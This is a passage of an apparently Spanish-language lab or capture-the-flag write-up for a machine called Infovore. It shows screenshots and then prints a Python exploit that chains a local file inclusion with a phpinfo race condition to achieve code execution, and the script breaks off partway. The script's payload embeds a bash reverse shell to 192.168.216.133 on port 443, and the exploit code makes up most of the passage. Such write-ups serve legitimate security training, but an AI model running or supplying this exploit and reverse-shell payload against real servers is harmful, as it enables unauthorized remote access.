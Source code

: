 ![[Pasted image 20240129004849.png]]({%link assets/img/infovore/5.png%})

>Si nos vamos a la web:

![[Pasted image 20240129004925.png]]({%link assets/img/infovore/6.png%})

>Nos subió el archivo. ¿Qué pasa si lo incluimos?

![[Pasted image 20240129005001.png]]({%link assets/img/infovore/7.png%})

>Nuevamente no nos carga nada. Si buscamos, en la página de [Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-phpinfo) que nos indica como explotar esta vulnerabilidad para ganar acceso a la máquina. Lo haremos con este script de python:

```python
#!/usr/bin/python 
import sys
import threading
import socket

def setup(host, port):
    TAG="Security Test"
    PAYLOAD="""%s\r
<?php echo system("bash -c 'bash -i >& /dev/tcp/192.168.216.133/443 0>&1'");?>');?>\r""" % TAG
    REQ1_DATA="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD
    padding="A" * 5000
    REQ1="""POST /info.php?a="""+padding+""" HTTP/1.1\r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie="""+padding+"""\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
HTTP_PRAGMA: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script   
    LFIREQ="""GET /index.php?filename=%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
\r
\r
"""
    return (REQ1, TAG, LFIREQ)

def phpInfoLFI(host, port, phpinforeq, offset, lfireq, tag):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    

    s.connect((host, port))
    s2.connect((host, port))

    s.send(phpinforeq)
    d = ""
    while len(d) < offset:
        d += s.recv(offset)
    try:
        i = d.index("[tmp_name] =&gt")
```